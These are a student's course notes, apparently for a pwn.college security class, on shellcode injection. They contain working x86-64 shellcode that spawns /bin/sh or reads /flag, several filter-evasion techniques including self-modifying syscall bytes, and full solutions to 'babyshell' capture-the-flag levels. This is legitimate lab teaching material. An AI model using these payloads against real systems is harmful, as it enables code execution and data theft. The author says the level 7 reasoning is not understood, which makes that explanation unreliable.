# Shellcode Injection

-----------**ASU CSE 365**: System Security

## Shellcode Injection: Introduction

①an example of vulnerability:

```c
//a.c
void bye1() {puts("Goodbye!");}
void bye2() {puts("Farewell!");}
void hello(char *name,void (*bye_func)()){
    //A pointer to a character array name;
    //A function pointer points to a function
	printf("Hello %s!\n",name);
	bye_func();
}

int main(int argc, char **argv){
	char name[1024];
	gets(name);
	srand(time(0));
	if(rand()%2) hello(bye1,name); //a mix-up of argument order
	else hello(name,bye2);
}
```

> use **gcc -w -z execstack -o a a.c** to compile
>
> -w: Does not generate any warning information
>
> -z: pass the keyword ----> linker



- So now the address of `bye1` is passed to `name` so `name` indicates the memory address of `bye1`. Now `name` is a binary code(the data is treated as code) . 
- if we pass the character array `name` to `bye_func` , the character array will be cast to a function pointer type. Because of the Incompatibility the program may be crash.



results: 



use gdb to debugging:





**x/s**: viewing the string at an address

**x/i**: view the instructions at an address



②shellcode--->achieve arbitrary command execution like launch a shell `execve("/bin/sh",NULL,NULL)`

```assembly
mov rax, 59				#execve
lea rdi, [rip+binsh]	#first argument
mov rsi, 0				#second
mov rdx, 0				#third
syscall
binsh:
.string "/bin/sh"
```

we can intersperse arbitrary data in shellcode

- **.byte 0x48, 0x45, 0x4C, 0x4C, 0x4F**   "HELLO"
- **.string "HELLO"**                          "HELLO\0"

other ways to embed data

```assembly
mov rbx, 0x0068732f6e69622f #move "/bin/sh\0" into rbx
push rbx					#push "/bin/sh\0" onto the stack
mov rdi, rsp				#point rdi at the stack
```

③Non-shell shellcode

another goal:

```assembly
mov rbx, 0x00000067616c662f		#push "/flag" filename
push rbx						
mov rax, 2						#syscall number of open
mov rdi, rsp					#point the first argument at stack (where we have "./flag")
mov rsi, 0						#NULL out the second argument (meaning, O_RDONLY)
syscall							#trigger open("/flag",NULL)

mov rdi, 1						#first argument to sendfile is the file descriptor to output to (stdout)
mov rsi, rax					#second argument is the file descriptor returned by open
mov rdx, 0						#third argument is the number of bytes to skip from the input file
mov r10, 1000					#fourth argument is the number of bytes to transfer to the output file
mov rax, 40						#syscall number of sendfile
syscall							#trigger sendfile(1,fd,0,1000) [out_fd,in_fd,offset,count]

mov rax, 60						#syscall number of exit
syscall							#trigger exit()
```

④building shellcode

```shell
gcc -nostdlib -static shellcode.s -o shellcode-elf
objcopy --dump-section .text=shellcode-raw shellcode-elf
#extract the .text (raw bytes of the shellcode)
```





**shellcoding**

> `echo "" >> shellcode-raw` to make a newline



this command pushes the binary code in the `shellcode-raw` file to an executable file `./a` and the second `cat` outputs the result of `./a`

⑤debugging shellcode ---> **strace** & **gdb**

"ctrl + r" can search for the matched last used command in the history in linux shell

```
x/5i $rip : print the next 5 instructions
examine qwords(x/gx $rsp), dwords(x/2dx $rsp), halfwords(x/4hx $rsp), and bytes(x/8b $rsp)
step one instruction(follow call):si, NOT s
step one instruction(step over call):ni, NOT n
```



## Shellcode Injection: Common Challenges

①memory access width

- single byte: mov [rax], bl
- 2-byte word: mov [rax], bx
- 4-byte dword: mov [rax], ebx
- 8-byte qword: mov [rax], rbx

sometimes we should explicitly specify the size to avoid ambiguity. So like

- single byte: mov **BYTE PTR** [rax], bl
- 2-byte word: mov **WORD PTR** [rax], bx
- 4-byte dword: mov **DWORD PTR** [rax], ebx
- 8-byte qword: mov **QWORD PTR** [rax], rbx

②forbidden byte





**shl: Logical left shift instruction**

if the constraints on shellcode are too hard to get around with clever synonyms, but the page where your shellcode is mapped is writable. remember, **code == data**

for example, forbiddent the `int 3` which is 0xcc in binary, and we can do like this:

```assembly
inc BYTE PTR [rip] #rip is pointed to next instruction
.byte 0xcb
```

when testing this, we need to make sure .text is writable:

> gcc **-Wl, -N  --static** -nostdlib -o shellcode shellcode.s

③ multi-stage shellcode

**stage 1:** read(0, rip, 1000)

- On amd64, we can do ti with **lea rax, [rip]**

**stage 2:** whatever you want

④Useful Tools

[pwntools](https://github.com/Gallopsled/pwntools): a library for writing exploits (and shellcode)

[rappel](https://github.com/yrp604/rappel): lets you explore the effects of instructions

[amd64 opcode listing](http://ref.x86asm.net/coder64.html)

some gdb plugins: [Pwngdb](https://github.com/scwuaptx/Pwngdb), [pwndbg](https://github.com/pwndbg/pwndbg), [peda](https://github.com/longld/peda)...

## Shellcode Injection: Data Execution Prevention

①memory permissions

- **PROT_READ:** allow the process to read memory
- **PROT_WRITE:** allow the process to write memory
- **PROT_EXEC:** allow the process to execute memory

Intuition: all code is located in .text segments of the loaded ELF files. There's no need to execute code located on the stack or in the heap. By default in modern systems, the stack and the heap are not executable. (NX: no-execute bit)

②de-protecting memory

Memory can be made executable using the **mprotect() system call**:

- Trick the program into mprotect(PROT_EXEC)ing our shellcode
  - code reuse through **Return Oriented Programming**
- Jump to the shellcode

③JIT





```shell
cd /proc #there we have directories for all the processes running on machine
cat self/maps #self is a link to my current process id
ls -ld self
grep -l rwx */maps #see files that match these permissions
grep -l rwx */maps | parallel "ls -l {//}/exe" #get the xxx/exe and all of the programs have a page mapped in memory that is writable and executable.
cat xxx/maps 
grep rwx xxx/maps
```

shellcode injection technique: JIT spraying



## babyshell

**code injection**	=> This challenge reads in some bytes, modifies them , and executes them as code! Shellcode will be copied onto the stack and executed. Since the stack location is randomized on every execution, your shellcode will need to be *position-independent*.

level1: **Placing shellcode on the stack at 0x123456789abc; Write and execute shellcode to read the flag**

```c
//babyshell.c
shellcode_size = read(0, shellcode_mem, 0x1000); //Reading 0x1000 bytes from stdin.
```

| NR   | SYSCALL NAME | references | RAX  | RDI       | RSI  | RDX  | r10  | r8   | r9   |
| ---- | ------------ | ---------- | ---- | --------- | ---- | ---- | ---- | ---- | ---- |
| 105  | setuid       | man/ cs/   | 0x69 | uid_t uid | -    | -    | -    | -    | -    |

```assembly
# 1.s
.global _start
_start:
.intel_syntax noprefix
        mov rax, 0x69           #setuid
        mov rdi, 0
        syscall

        mov rax, 59             #execve
        lea rdi, [rip+binsh]
        mov rsi, 0
        mov rdx, 0
        syscall
binsh:
        .string "/bin/sh"
```

in shell:

```shell
gcc -static -nostdlib 1.s -o 1
objcopy --dump-section .text=out 1
(cat out; cat) | /challenge/babyshell_level1
cat /flag #get flag
```

**another way to directly read the flag**

```assembly
.global _start
_start:
.intel_syntax noprefix

        #open
        mov rsi, 0
        lea rdi, [rip+flag]
        mov rax, 2
        syscall

        #read
        mov rdi, rax
        mov rsi, rsp
        mov rdx, 100
        mov rax, 0
        syscall

        #write
        mov rdi, 1
        mov rsi, rsp
        mov rdx, rax
        mov rax, 1
        syscall

        #exit
        mov rax, 60
        mov rdi, 42
        syscall

flag:
        .ascii "/flag\0"
```

level2: **a portion of your input is randomly skipped. nop sled**

**Repeat macro assemblers**: This challenge will randomly skip up to 0x800 bytes in your shellcode. One way to evade this is to have your shellcode start with a long set of single-byte instructions that do nothing, such as `nop`, before the
actual functionality of your code begins. When control flow hits any of these instructions, they will all harmlessly execute and then your real shellcode will run. 

```assembly
#add the code below to the front of the level1_code
.rept 0x800
	nop
.endr
```

level3: **inputted data is filtered before execution. Mapping shellcode memory at 0x12345678**

- This challenge requires that your shellcode have no **NULL** bytes

```assembly
.global _start
_start:
.intel_syntax noprefix

        #open
        xor rsi, rsi            #change
        #lea rdi, [rip+flag]
        mov byte ptr [rsp], '/'
        mov byte ptr [rsp+1], 'f'
        mov byte ptr [rsp+2], 'l'
        mov byte ptr [rsp+3], 'a'
        mov byte ptr [rsp+4], 'g'
        xor cl, cl
        mov byte ptr [rsp+5], cl
        mov rdi, rsp
        #mov byte ptr [rsp+5], '\0'
        xor rax, rax            #must xor!
        mov al, 2               #change
        syscall

        #read
        mov rdi, rax
        mov rsi, rsp
        xor rdx, rdx
        mov dl, 100             #change
        xor rax, rax            #change
        syscall

        #write
        xor rdi, rdi
        mov dil, 1              #change
        mov rsi, rsp
        mov rdx, rax
        xor rax, rax
        mov al, 1               #change ;inc rax can also be good
        syscall

        #exit
        xor rax, rax
        mov al, 60              #change
        xor rdi, rdi
        mov dil, 42             #change
        syscall

flag:
        .ascii "/flag"
```

level4: **This challenge requires that your shellcode have no H bytes**

The "H bytes" is 0x48 in ASCII and we use the command below to dynamically see the variation.

```shell
gcc -static -nostdlib -o 1 1.s & objcopy --dump-section .text=out 1 & objdump -M intel -d 1 | grep 48
```

got:

```shell
  401000:       48 31 f6                xor    rsi,rsi
  401021:       48 89 e7                mov    rdi,rsp
  401024:       48 31 c0                xor    rax,rax
  40102b:       48 89 c7                mov    rdi,rax
  40102e:       48 89 e6                mov    rsi,rsp
  401031:       48 31 d2                xor    rdx,rdx
  401036:       48 31 c0                xor    rax,rax
  40103b:       48 31 ff                xor    rdi,rdi
  401041:       48 89 e6                mov    rsi,rsp
  401044:       48 89 c2                mov    rdx,rax
  401047:       48 31 c0                xor    rax,rax
  40104e:       48 31 c0                xor    rax,rax
  401053:       48 31 ff                xor    rdi,rdi
```

We can change the 64bits to 32bits to eliminate the `48`. Like the `xor rsi, rsi` , convert it to `xor esi, esi`. Like the `mov rdi, rax`, convert it to `mov edi, eax`.  Finally it looks like this: 

```shell
  401020:       48 89 e7                mov    rdi,rsp
  40102b:       48 89 e6                mov    rsi,rsp
  40103b:       48 89 e6                mov    rsi,rsp
  401048:       b0 3c                   mov    al,0x3c
```

switch to 32-bit mode(edi, esp) but the command above is not easy to change. If we change `mov rdi, rsp` to `mov edi, esp` it will lose something because the address is 64-bit mode. 

**figure out:** we can use the r8, r9 as the **intermediate transition** and r8, r9 won't create the `48`

```assembly
.global _start
_start:
.intel_syntax noprefix

        #open
        xor esi, esi
        #lea rdi, [rip+flag]
        mov byte ptr [rsp], '/'
        mov byte ptr [rsp+1], 'f'
        mov byte ptr [rsp+2], 'l'
        mov byte ptr [rsp+3], 'a'
        mov byte ptr [rsp+4], 'g'
        xor cl, cl
        mov byte ptr [rsp+5], cl
        mov r8, rsp
        mov rdi, r8
        #mov rdi, rsp
        #mov byte ptr [rsp+5], '\0'
        xor eax, eax
        mov al, 2
        syscall

        #read
        mov edi, eax
        mov r8, rsp
        mov rsi, r8
        #mov rsi, rsp
        xor edx, edx
        mov dl, 100
        xor eax, eax
        syscall

        #write
        xor edi, edi
        mov dil, 1
        mov r8, rsp
        mov rsi, r8
        #mov rsi, rsp
        mov edx, eax
        xor eax, eax
        mov al, 1
        syscall

        #exit
        xor eax, eax
        mov al, 60
        xor edi, edi
        mov dil, 42
        syscall

flag:
        .ascii "/flag"
```

level5: **the inputted data cannot contain any form of system call bytes (syscall, sysenter, int)**

- This filter works by scanning through the shellcode for the following byte sequences: 0f05 (`syscall`), 0f34 (`sysenter`), and 80cd (`int`). One way to evade this is to have your shellcode modify itself to insert the `syscall` instructions at runtime.

```shell
hacker@shellcode-injection-level-5:~/module6/5$ objdump -M intel -d 1 | grep "0f 05"
  40102a:       0f 05                   syscall 
  40103a:       0f 05                   syscall 
  40104d:       0f 05                   syscall 
  401058:       0f 05                   syscall
```

```
#see how the code works
cat out | strace /challenge/babyshell_level5
```

solution:

```assembly
.global _start
.intel_syntax noprefix
_start:
        #fix up the syscalls-->significant
        mov byte ptr [rip+syscall1], 0x0f
        mov byte ptr [rip+syscall1+1], 0x05
        mov byte ptr [rip+syscall2], 0x0f
        mov byte ptr [rip+syscall2+1], 0x05
        mov byte ptr [rip+syscall3], 0x0f
        mov byte ptr [rip+syscall3+1], 0x05
        mov byte ptr [rip+syscall4], 0x0f
        mov byte ptr [rip+syscall4+1], 0x05
        #open
        mov rsi, 0
        lea rdi, [rip+flag]
        mov rax, 2
syscall1:
        .byte 0x13
        .byte 0x37

        #read
        mov rdi, rax
        mov rsi, rsp
        mov rdx, 100
        mov rax, 0
syscall2:
        .byte 0x13
        .byte 0x37

        #write
        mov rdi, 1
        mov rsi, rsp
        mov rdx, rax
        mov rax, 1
syscall3:
        .byte 0x13
        .byte 0x37

        #exit
        mov rax, 60
        mov rdi, 42
syscall4:
        .byte 0x13
        .byte 0x37
flag:
        .ascii "/flag"
```

level6: **Removing write permissions from first 4096 bytes of shellcode**

In order to get the flag, just directly add 4096 repeats in the front of the level5 code

level7: **close the stdin, stderr, stdout**

This challenge is about to close 

- **stdin**, which means that it will be harder to pass in a stage-2 shellcode. You will need to figure an alternate solution (such as unpacking shellcode in memory) to get past complex filters.
- **stderr**, which means that you will not be able to get use file descriptor 2 for output.
- **stdout**, which means that you will not be able to get use file descriptor 1 for output. You will see no further output, and will need to figure out an alternate way of communicating data back to yourself.

```shell
#use the chmod to make the flag file can be read
#A permission of 004 corresponds to -------r--

- --- --- ---
-:- or d (file type)
1---: owner
2---: group
3---: other users

for each ---: rwx
```

this table is about the permission: 

| #    | permission             | rwx  | binary |
| ---- | ---------------------- | ---- | ------ |
| 7    | read + write + execute | rwx  | 111    |
| 6    | read + write           | rw-  | 110    |
| 5    | read + execute         | r-x  | 101    |
| 4    | read                   | r--  | 100    |
| 3    | write + execute        | -wx  | 011    |
| 2    | write                  | -w-  | 010    |
| 1    | execute                | --x  | 001    |
| 0    | none                   | ---  | 000    |

```assembly
.global _start
_start:
.intel_syntax noprefix

	#chmod
	mov rax, 90
	lea rdi, [rip+flag]
	mov rsi, 4 #other users can read the flag
	#mov rsi, 777
	syscall

	#open
	xor rsi, rsi
	lea rdi, [rip+flag]
	xor rax, rax
	mov al, 2
	syscall

	#read
	mov rdi, rax
	mov rsi, rsp
	xor rdx, rdx
	mov dl, 100
	xor rax, rax
	syscall
	
	#write
	xor rdi, rdi
	mov dil, 1
	mov rsi, rsp
	mov rdx, rax
	xor rax, rax
	mov al, 1
	syscall
	
	#exit
	xor rax, rax
	mov al, 60
	xor rdi, rdi
	mov dil, 42
	syscall

flag:
	.ascii "/flag"
```

```shell
#============================using in shell
gcc -nostdlib -static -o 1 1.s && objcopy --dump-section .text=out 1 && cat out | strace /challenge/babyshell_level7
strace ./1 #get the flag like this:

execve("./1", ["./1"], 0x7fff5cd94da0 /* 25 vars */) = 0
chmod("/flag", 004)                     = -1 EPERM (Operation not permitted)
open("/flag", O_RDONLY)                 = 3
read(3, "pwn.college{a"..., 100) = 56
write(1, "pwn.college{a"..., 56pwn.college{a}
) = 56
exit(42)                                = ?
+++ exited with 42 +++

#============================or just
./1 #can get the flag
```

> **Actually I still don't know why the stderr, stdout, stdin which were being closed work and why the `chmod` command can solve this question. I just know it is a way to be able to cat the flag**
